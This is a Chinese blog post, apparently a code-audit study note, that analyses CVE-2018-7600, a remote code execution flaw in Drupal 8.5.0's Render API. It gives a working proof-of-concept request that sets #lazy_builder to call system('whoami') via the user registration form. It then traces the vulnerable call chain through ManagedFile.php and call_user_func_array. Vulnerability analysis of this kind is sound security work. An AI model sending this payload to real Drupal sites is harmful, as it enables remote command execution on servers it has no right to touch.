



# 代码审计之 CVE-2018-7600-Drupal 远程代码执行漏洞-Render API - tr1ple - 博客园

> 原文：[`www.cnblogs.com/tr1ple/p/10514064.html`](https://www.cnblogs.com/tr1ple/p/10514064.html)

　　今天学习一下 Drupal 的另一个漏洞，由于渲染数组不当造成的漏洞

　　poc：

```
url:
http://localhost/drupal-8.5.0/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax
 post： 'mail[a][#lazy_builder][0]': 'system',
'mail[a][#lazy_builder][1][]': 'whoami',
'form_id': 'user_register_form'
```

　　使用 poc 进行测试，并在断点处观察其调用流程：

　　函数的漏洞入口点在：

　　\core\modules\file\src\Element\ManagedFile.php 处

　　

　　经过 explode 函数处理，将 get 请求中的 element_parents 参数的值变成一个数组：即比如 a/b/c 变成了["a","b","c"]

　　然后将处理完的$form_parents 变量传给 NestedArray 类的 getValue 函数处理，其中$form 包含了表单的所有信息，我们跟进一下：

　　其中 getValue 函数就是将$form 中的值逐层取出，

　　

　　如果$parents 为 a/b/c，则结果值为 123

　　

     此时$callable 变量为 system，$args 变量为["whoami"],然后再调用 call_user_func_array()函数处理

　　